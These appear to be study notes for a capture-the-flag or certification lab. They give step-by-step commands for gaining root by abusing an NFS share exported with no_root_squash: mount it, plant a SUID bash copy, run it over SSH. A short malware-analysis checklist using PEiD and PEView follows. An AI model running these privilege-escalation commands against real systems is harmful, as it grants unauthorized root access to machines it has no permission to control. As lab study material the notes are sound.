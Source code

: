  

vulnerability : Nfs squash method
if you have time Follow this tutorial only
https://juggernaut-sec.com/nfs-no_root_squash/#Example_1_Crafting_an_Exploit_for_a_Root_Shell
or
### Perform vertical privilege escalation of a root user, and enter the flag
Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`

after them, In another terminal:

* Access to target using SSH
ssh smith@192.168.0.x
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`



######################################################################################################################################
Malware analysis

 
### Identify malware entry point address

#### [PEiD](https://softfamous.com/peid/) (suggested)

* If tool is not already on system, Download PEiF tool -> 
[https://softfamous.com/peid/](https://softfamous.com/peid/)
* Execute PEiD tool
* Upload malware executable
* See entry point address

#### **PEView**

* If tool is not already on system, Download PEView tool
* Execute tool
* Upload malware executable
* Look for the "Optional Header" section within the PEView interface. 
In this section, you should find the "AddressOfEntryPoint" field, 
which represents the entry point of the executable. Note the hexadecimal value displayed in the 
"AddressOfEntryPoint" field. This is the entry point address of the executable.
